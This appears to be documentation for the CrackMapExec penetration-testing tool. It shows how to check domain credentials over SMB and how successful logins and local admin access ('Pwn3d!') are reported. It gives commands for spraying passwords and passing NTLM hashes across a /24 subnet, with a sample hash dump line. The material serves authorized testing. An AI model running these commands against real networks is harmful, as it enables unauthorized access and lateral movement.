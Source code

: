 # Checking Domain Credentials

## Authentication

* Failed logins result in a \[-]
* Successful logins result in a \[+] Domain\Username:Password

Local admin access results in a (Pwn3d!) added after the login confirmation, shown below.

```
    SMB         192.168.1.101    445    HOSTNAME          [+] DOMAIN\Username:Password (Pwn3d!)
```

The following checks will attempt authentication to the entire /24 though a single target may also be used.

### User/Password

```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE'
```

### User/Hash

After obtaining credentials such as\
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c:::\
you can use both the full hash or just the nt hash (second half)

```
#~ cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT'
#~ cme smb 192.168.1.0/24 -u UserNAme -H 'NTHASH'
#~ cme smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
#~ cme smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c595
```
